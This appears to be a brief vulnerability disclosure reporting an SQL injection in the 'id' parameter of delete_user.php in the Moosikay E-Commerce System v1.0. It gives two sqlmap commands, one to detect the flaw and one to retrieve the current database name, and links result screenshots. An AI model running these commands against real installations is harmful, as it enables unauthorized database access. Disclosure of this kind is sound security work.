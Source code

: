 # Moosikay - E-Commerce System v1.0 by razormist has SQL injection

BUG_Author: lcg22266

Vulnerability File: /Moosikay/admin/delete_user.php

Parameter "id" (GET), exists SQL injection vulnerability

sqlmap detect injection vulnerabilities: "sqlmap -u http://ip/Moosikay/admin/delete_user.php?id=1"

sqlmap injection result

![image](https://github.com/lcg-22266/bug_pic/blob/main/sqlmap.png)

sqlmap Queries the current database: "sqlmap -u http://ip/Moosikay/admin/delete_user.php?id=1 --current-db"

sqlmap injection result

![image](https://github.com/lcg-22266/bug_pic/blob/main/sqlmapTwo.png)
